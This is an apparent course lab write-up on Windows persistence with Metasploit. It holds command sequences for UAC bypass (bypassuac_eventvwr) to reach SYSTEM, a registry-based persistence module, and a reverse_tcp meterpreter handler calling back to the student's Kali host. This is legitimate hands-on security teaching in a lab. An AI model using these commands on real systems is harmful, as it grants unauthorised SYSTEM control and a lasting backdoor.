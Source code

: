 ```yaml
---
layout: editorial
---
```


# Persistence

## Discussion

Threat actors persist in networks if the need to do so is one of their goals. They may persist to collect new information created by the organization. For example, if their goal is to steal intellectual property then they would persist to collect that information. It could be intellectual property such as the design of a new car, market segments that are being targeted, weapon systems, or any information that is of value. They can persist by injecting startup commands for a program in the Windows registry. The Windows registry is a large database of all settings for a Windows system. There is a Windows startup folder and any code that is added in that folder will automatically start after a system reboot, or they may inject code that executes when a specific user authenticates to the system.

The type of persistence you’re going to set up is going to have a program that beacons every 10 seconds. Beaconing means every 10 seconds, the program is going to try to connect to your Kali server. That effectively turns your Kali machine into a c2 server (or command and control). Once you set up the listener, then you’ll have another backdoor into their network.

## Lab Preparation

* Re-establish the reverse shell. Check to be sure your IP address didn’t change when you switch network adapters to NETSEC-WAN. I forgot you had to change it for the last lab. If it is different, you will need to recreate the backdoored WinSCP program.

## Start the lab

Run the commands:

**getuid**

**getsystem**

**SUBMISSION: Annotate the screenshot to show the current user and the output of “getsystem.” Based on what you see in the output, did the “getsystem” command work?**

NOTE: getsystem is a meterpreter command that attempts to exploit vulnerabilities and obtain “SYSTEM” level access. Remember that the SYSTEM context is the highest level of privileges on a Windows system.

You’ll note that the ‘getsystem’ command did not work. In that case, we’ll use another module from Metasploit that will look for a ‘local privilege escalation’ attack.

When remote vulnerabilities are not an option, threat actors will attempt to gain access to a computer and, depending on their goals, they may want elevated privileges to persist or gain access to the resources they are targeting. In that case, they will attempt to search for credentials or determine if the current user is in an administrator group. If those fail, they will then check to see what software is installed on a computer. Since many organizations don’t keep their software updated on a regular basis, it is possible to leverage a ‘local privilege escalation’ attack if there is a software program that is vulnerable. The module you are about to run will automate the process of trying to find a local privilege escalation attack.

From the meterpreter prompt run the command:

**background**

Select “y” when asked if you want to background the process. The background command will keep the remote shell session open and allow you to continue using Metasploit. The module to use is the local\_exploit\_suggester. Run the command:

**use post/multi/recon/local\_exploit\_suggester**

Then run:

**show options:**

The main one you need to set is “SESSION.”

Run the command

**sessions**

and make a note of the numeric value in the “Id” field (the leftmost value).

**e.g.**

![e.g.](https://i.imgur.com/OTVaig7.png)

Then use that numeric Id to run the next command (change X to the numeric value of the Id field)

**set SESSION X**

Then run:

**run**

If you receive a message that the process was interrupted by the user,

**e.g.**

![e.g.](https://i.imgur.com/PQbsiIl.png)

run the command **exploit** again.

You will see a long list of potential local privilege escalation vulnerabilities.

**e.g.**

![e.g.](https://i.imgur.com/GZghTCv.png)

You are welcome to play around with the various results to see which one works for you, though one that works is:

_bypassuac\_eventvwr_

So you can run:

use exploit/windows/local/bypassuac\_eventvwr

Then run:

**show options**

You’ll see the only one that needs to be set is “SESSION” so change X below to the numeric value used above for the SESSION.

**set SESSION X**

Then run:

**exploit**

It will look like the screenshot below:

**e.g.**

![e.g.](https://i.imgur.com/B6yOJGh.png)

Regardless of the exploit used, you want to check to see if a Metasploit session was opened. At the meterpret prompt, run:

**getuid**

Note you are still joker. Now run:

**getsystem**

Note how you are running with the SYSTEM context. At this point, you have unrestricted access to the computer. You can create new accounts, delete accounts, or whatever else you want to achieve.

## Creating Persistence

Next you want to create persistence. You are at the point where you can start learning to use the documentation for Metasploit. Below is a link to the Metasploit documentation for setting up persistence. Be sure you READ the entire document to understand what is going on with the attack. Set your Beacon to 10 seconds and **be sure you change the IP address from the tutorial to the the IP of your Kali workstation.**

After you run the create persistence command, then switch to your Windows 7 system and reboot it. Watch your Metasploit console too.

Metasploit Persistence:

[https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/)

NOTE: If you receive an error that the persistence module is deprecated, you’ll need to use the module “**exploit/windows/local/persistence”**

To do so, from your msfconsole, type the command “background”

That will take you back to the console for Metasploit. Then run:\
\
use exploit/windows/local/persistence

set SESSION X

set LPORT 443

exploit

That will create a visual basic script which will be added to the Windows registry to start the backdoor after the user reboots and logs in to their system.\
\
Then, while at your msfconsole, run the commands:\
\
use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse\_tcp

set LHOST IP\_OF\_YOUR\_KALI\_HOST

set LPORT 443

exploit

Then switch to your Windows 7 workstation and reboot it. Watch your Metasploit console when your system reboots.

**SUBMISSION:**

Provide the command you used to setup persistence. If you had to use the “exploit/windows/local/persistence” then take a screenshot of the console with the command and options you set.

